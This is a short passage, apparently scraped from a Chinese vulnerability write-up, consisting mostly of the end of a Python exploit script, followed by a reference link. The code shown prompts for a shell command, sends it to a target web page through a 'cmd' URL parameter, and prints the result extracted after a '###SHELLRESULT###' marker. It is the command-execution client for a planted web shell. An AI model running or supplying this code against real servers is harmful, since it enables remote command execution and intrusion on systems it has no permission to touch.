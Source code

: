         if len(sys.argv) == 1: sCMD = input('[?] Please enter the command to run [id]: ')
        if sCMD == '': sCMD = 'id'
        sCmd =  urllib.parse.quote(sCMD)
        sPath = sPageName + "?cmd=" + sCmd

        print('[+] Opening '+sURL + sPath)
        try:
            oRequest = urllib.request.Request(url = sURL + sPath)
            oResponse = oOpener.open(oRequest, timeout = iTimeout)
            print('#######################')
            sResponse = oResponse.read().decode()
            print('[+] Command result:')
            print(sResponse.split('###SHELLRESULT###')[1])
        except:
            print('[-] Something went wrong, bad command?')
            sys.exit(1)


    if __name__ == "__main__":
        main()

参考链接
--------

> https://mp.weixin.qq.com/s/U-MiFkBiY6fF44xfwAV-Ng
